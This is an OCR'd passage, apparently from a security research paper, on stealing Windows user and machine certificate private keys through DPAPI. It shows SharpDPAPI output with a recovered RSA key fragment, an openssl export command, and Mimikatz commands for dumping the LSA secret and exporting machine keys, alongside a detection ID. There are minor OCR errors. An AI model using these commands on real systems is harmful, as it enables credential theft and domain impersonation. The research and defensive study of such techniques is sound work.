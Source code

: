 | Client Authentication (1.3.6.1.5.5.7.3.2) |
| Secure Email (1.3.6.1.5.5.7.3.4) |
| Encrypting File System (1.3.6.1.4.1.311.10.3.4) |
| [ ! ] Certificate can be used for client auth! |
| [*] Private key file 065daebb32bc3866a379428730ffd139 6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered: |
| -- BEGIN RSA PRIVATE KEY -- -- |
| MIIEpAIBAAKCAOEAysLTIUoyA006z4wWuyxjDLC020uzfXCIqw8sAPR6a7i4CRtS |
| nPwbExbNUZNOsQBLxuzx0L5XX0kde4NHnAqtIu80QXReU0uTrWK+V45RvnZg79z0 |
| a2nsYp5b+cd3x08FAcjl2eyqavqq31ow0nXJe07LHbGNKA3Mpj7wfI+NcYjDvD6M |

Exportina a Certificate with SharpDPAPI

Note the call out for "[!] Certificate can be used for client auth!", indicating the certificate allows for domain authentication. To convert the . pem to a .pfx, one can use the openssl command displayed at the end of the SharpDPAPI output:

openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

#### Defensive IDs:

- Detecting Reading of DPAPI-Encrypted Keys DETECT5
### Machine Certificate Theft via DPAPI – THEFT3

Windows key HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates® and stores private keys in several different places depending on the account34. Although SharpDPAPI will search all

locations, from these come %ALLUSERSPROFILE%\Application Data\Microsoft\Crypto\RSA\MachineKeys (CAPI) and %ALLUSERSPROFILE%\Application Data\Microsoft\Crypto\Keys (CNG). These private keys are associated with the machine certificate store and Windows encrypts them with the machine's DPAPI master keys. One cannot decrypt these keys using the domain's DPAPI backup key, but rather must use the DPAPI SYSTEM LSA secret on the system which is accessible only by the SYSTEM user. You can do this manually with Mimikatz' lsadump::secrets command and then use the extracted key to decrypt machine masterkeys. You can also patch CAPI/CNG as before and use Mimikatz' crypto::certificates /export /systemstore:LOCAL MACHINE command.

SharpDPAPl's certificates command with the /machine flag (while elevated) will automatically elevate to SYSTEM, dump the DPAPI SYSTEM LSA secret, use this to decrypt and found machine DPAPI masterkeys, and use the key plaintexts as a lookup table to decrypt any machine certificate private keys:

| [*] Triaging System Certificates |
| --- |
| Folder : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys |
| File : 9377cea385fa1e5bf7815ee2024d0eea_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 |
| Provider GUID : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} |
| Master Key GUID : {f12f57e1-dd41-4daa-88f1-37a64034c7e9} |
| Description : CryptoAPI Private Key |
| algCrypt : CALG 3DES (keyLen 192) |
| algHash : CALG SHA (32772) |
| Salt : aa8c9e4849455660fc5fc96589f3e40e |
| HMAC : 9138559ef30fbd70808dca2c1ed02a29 |
| Unique Name : te-Machine-50500b00-fddb-4a0d-8aa6-d73404473650 |
| Thumbprint : A82ED8207DF6BC16BB65BF6A91E582263E217A4A |